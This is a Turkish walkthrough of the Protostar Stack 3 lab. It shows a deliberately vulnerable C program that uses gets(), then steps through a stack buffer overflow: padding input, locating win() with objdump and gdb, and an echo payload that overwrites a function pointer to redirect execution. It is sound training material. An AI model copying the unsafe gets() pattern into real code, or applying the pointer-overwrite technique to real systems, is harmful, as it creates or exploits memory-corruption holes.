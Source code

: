 ```yaml
---
title: "Stack 3"
etiketler : "Protostar"
seriler: "Protostar"
sakla  : false
---
```


# Stack3.c
``` C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

**Amaç:** main fonksiyonu içerisinde çağırılmayan bir fonksiyonu değişkenin
değeri değiştirilerek programın akışına manipüle etmek.

# Programın Çalıştırılması
``` text
user@protostar:/opt/protostar/bin$ ./stack3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA # 64 Tane A
user@protostar:/opt/protostar/bin$ ./stack3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCC
calling function pointer, jumping to 0x43434343
Segmentation fault
```

Program çalıştırıldığı zaman kullanıcıdan bir giriş bekliyor. Buffer değişkeni
64 byte olduğu için 64byte uzunluğunda bir karakter dizesi verererek programı
incelemeye başlıyorum.

``` C
volatile int (*fp)(); /* Fonksiyon Pointerin tanımlanması */
...
fp = 0; /* Fonksiyon adresi olarak 0 atanması */
```

Öncelikle fp fonksiyon pointeri main fonksiyonunda çağırıldığı için fp
değişkenini istediğimiz fonksiyonun adresi ile değiştirebilirsek programın
akışını değiştirebiliriz. fp main fonksiyonu içinde lokal değişken olarak
tanımlandıkğı için stack taşırılarak fp değişkeni değiştirilebilir. fp 4 byte
olduğu için 4 adet C karakteri ekleyerek fp fonksiyonu çağırıldığında 0 yerine
`0x434343` adresindeki kodun çalıştırmasını bekliyorum.

``` C
user@protostar:/opt/protostar/bin$ ./stack3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCC
calling function pointer, jumping to 0x43434343
Segmentation fault
```

Ekrana `calling function pointer, jumping to 0x43434343` yazdırıldığına göre
programın akışını değiştirdik fakat o adrese erişim yetkimiz olmadığı için
`Segmentation fault` hatası aldık. Geriye sadece zıplamak istediğimiz
fonksiyonun adresini bulmak kaldı.

Programın dönüş adresini bulabilmek için `objdump` aracını ve `gdb` kullanımı
aşağıdaki gibidir.

# win Fonksiyonunun Adresinin Bulunması

## Objdump

``` shell
user@protostar:/opt/protostar/bin$ objdump -S stack3 | grep win
08048424 <win>:
```

## GDB
```
user@protostar:/opt/protostar/bin$ gdb ./stack3
(gdb) p win
$1 = {void (void)} 0x8048424 <win>
(gdb) x win
0x8048424 <win>:        0x83e58955
```

Görünüşe göre win fonksiyonunun adresi `08048424`

# Programın Akışının Değiştirilmesi

Programa verdiğim 64 adet "A" karakteirnin sonuna bu adresi ekliyorum.

```
user@protostar:/opt/protostar/bin$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x24\x84\x04\x08" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

Böylelikle stackteki `fp` değişkenini 0 değerinden `08048424` değerine döndürüp
bu adresteki fonksiyonu çalıştırabiliyoruz.

